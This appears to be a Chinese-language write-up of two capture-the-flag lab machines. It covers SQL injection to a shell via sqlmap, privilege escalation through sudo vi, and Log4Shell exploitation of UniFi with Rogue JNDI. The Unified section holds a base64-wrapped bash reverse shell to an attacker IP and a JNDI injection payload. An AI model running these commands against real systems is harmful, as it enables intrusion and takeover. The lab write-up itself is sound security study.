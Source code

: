 登录网站发现搜索框存在 SQL 注入，准备好 cookie 后用 sqlmap 跑一下：

```bash
$ sqlmap -u "http://<box_ip>/dashboard.php?search=1" --cookie="PHPSESSID=jfqqop7f3lv6d7qat8973gfsag"
```

发现 `search` 参数可以注入，加上 `--os-shell` flag 再跑一次即可获得 shell，随后反弹 shell 即可获得 `postgres` 用户的 user flag。

随后在 `/var/www/html` 目录下用 `grep -ri` 搜索发现数据库 `postgres` 用户的明文密码 `P@s5w0rd!`，测试发现同样是 Linux 用户 `postgres` 的密码。`sudo -l` 查看权限，可以执行 `/bin/vi /etc/postgresql/11/main/pg_hba.conf`，在 [GTFO Bins](https://gtfobins.github.io/gtfobins/vi/) 上可以找到相关利用方式，由于执行的命令和参数是固定的，必须先执行：

```bash
$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

进入 vi 编辑器，随后在普通模式下再运行：

```
:set shell=/bin/sh
:shell
```

或者也可以直接运行 `:!/bin/bash`。

### Unified

扫描发现 22,6789,8080,8443 端口开放，其中 8443 端口对应服务为 Unifi 6.4.54，搜索发现存在 [CVE-2021-44228](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) 漏洞。在这个漏洞中，我们需要在登陆请求的 `remember` 参数中注入 JNDI payload，让 Unifi 服务请求我们控制的恶意 LDAP 服务。

为了启动恶意 LDAP 服务，首先安装和编译 Rogue JNDI：

```bash
$ sudo apt install -y openjdk-11-jdk maven
$ git clone https://github.com/veracode-research/rogue-jndi
$ cd rogue-jndi
$ mvn package
```

随后构造 payload，并进行 Base64 编码，提供给 Rogue JNDI 启动恶意 JNDI 服务器：

```bash
$ rev_sh=$(echo 'bash -c bash -i >&/dev/tcp/<my_ip>/1337 0>&1' | base64)
$ java -jar target/RogueJndi-1.1.jar --hostname "<my_ip>" --command "bash -c {echo,$rev_sh}|{base64,-d}|{bash,-i}"
```

最后抓取登录数据包，将 `remember` 字段改为 `${jndi:ldap://<my_ip>:1389/o=tomcat}` 并发送，目标服务就会向我们的恶意 JNDI 服务器发起 LDAP 请求：

```
POST /api/login HTTP/1.1
...

{"username":"admin","password":"123456","remember":"${jndi:ldap://<my_ip>:1389/o=tomcat}","strict":true}
```
